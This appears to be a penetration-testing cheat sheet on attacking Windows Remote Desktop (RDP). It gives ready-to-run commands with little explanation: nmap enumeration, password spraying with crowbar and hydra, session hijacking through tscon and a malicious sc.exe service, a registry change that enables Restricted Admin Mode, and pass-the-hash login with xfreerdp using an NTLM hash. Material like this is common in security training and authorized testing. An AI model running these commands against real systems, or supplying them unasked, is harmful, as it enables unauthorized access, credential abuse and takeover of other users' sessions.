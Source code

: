 - RDP uses port `TCP/3389`
# ENUMERATION
```shell
nmap -Pn -p3389 192.168.2.143 
```
# Misconfigurations
- Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing.
### Crowbar
```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```
### Hydra
```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### RDP Login
```shell
rdesktop -u admin -p password123 192.168.2.143
```
### RDP Session Hijacking
```cmd
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

```cmd
query user
```

```cmd
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd
net start sessionhijack
```
## RDP Pass-the-Hash (PtH)
If `Restricted Admin Mode`
#### Add the DisableRestrictedAdmin Registry Key
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```shell
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
